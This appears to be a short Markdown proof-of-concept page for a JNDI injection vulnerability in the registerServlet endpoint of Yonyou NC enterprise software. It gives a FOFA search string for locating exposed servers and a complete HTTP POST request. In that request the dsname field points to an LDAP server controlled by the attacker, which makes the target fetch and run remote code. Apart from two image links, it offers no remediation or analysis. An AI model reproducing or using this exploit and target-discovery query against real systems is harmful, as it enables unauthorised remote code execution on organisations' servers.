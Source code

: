 ## 用友NC系统registerServlet接口存在JNDI注入漏洞

## fofa
```
body="Client/Uclient/UClient.dmg"
```


## poc
```
POST /portal/registerServlet HTTP/1.1
Host: 192.168.63.129:8088
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

type=1&dsname=ldap://172.17.176.1:8085/blvVEcJU1
```

![image](../../images/1aac8d1d-b2c5-4f2d-af47-97c363a59274.png)

![image](../../images/e7c8e733-01fc-468b-9acc-b4de63428cdc.png)
